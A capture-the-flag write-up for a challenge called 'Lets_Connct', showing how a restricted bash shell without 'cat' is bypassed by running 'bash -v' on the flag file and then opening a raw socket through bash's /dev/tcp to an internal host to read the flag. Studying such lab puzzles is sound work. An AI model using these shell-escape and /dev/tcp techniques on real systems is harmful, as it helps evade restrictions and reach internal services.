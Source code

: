 # Lets_Connct

nc 114.177.250.4 2999

author pr0xy

---

When we first connect to the challenge, we are greeted by a bash prompt.

```
bash-4.4$ ls
ls
bash
bin
dev
flag
lib
lib32
lib64
```

But when we try to `cat` the flag, it doesn't work.

```
bash-4.4$ cat flag
cat flag
bash: cat: command not found
```

It looks like we have to find another way to read the flag. Seeing `bash` in the directory, I tried using it to leak the flag.

```
bash-4.4$ ./bash flag
./bash flag
flag: line 1: Flag: command not found
```

It looks like we can only read the first word in the file, but we can use the `-v` argument to print the input lines as they are read.

```
bash-4.4$ ./bash -v flag
./bash -v flag
Flag has moved to 3000 port on 172.17.0.10.
flag: line 1: Flag: command not found
```

Let's try making a socket connection using `/dev/tcp`!

We open file descriptor 3 for reading and read the flag which is stored in the `REPLY` variable by default. Then, we print the flag.
```
bash-4.4$ exec 3</dev/tcp/172.17.0.10/3000
exec 3</dev/tcp/172.17.0.10/3000
bash-4.4$ read 0<&3
read 0<&3
bash-4.4$ echo $REPLY
echo $REPLY
ctrctf{b4sh_1s_a_mul7ifuncti0n_sh3ll}
```
